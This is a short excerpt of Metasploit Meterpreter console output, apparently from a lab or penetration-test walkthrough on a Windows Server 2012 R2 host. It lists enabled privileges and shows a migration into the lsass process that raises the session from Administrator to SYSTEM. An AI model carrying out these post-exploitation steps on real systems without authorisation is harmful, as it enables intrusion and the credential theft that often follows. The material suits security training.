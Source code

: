 ```
meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: WIN-OMCNBKR66MN\Administrator
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

```
meterpreter > pgrep lsass
708
meterpreter > migrate 708
[*] Migrating from 2984 to 708...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
```

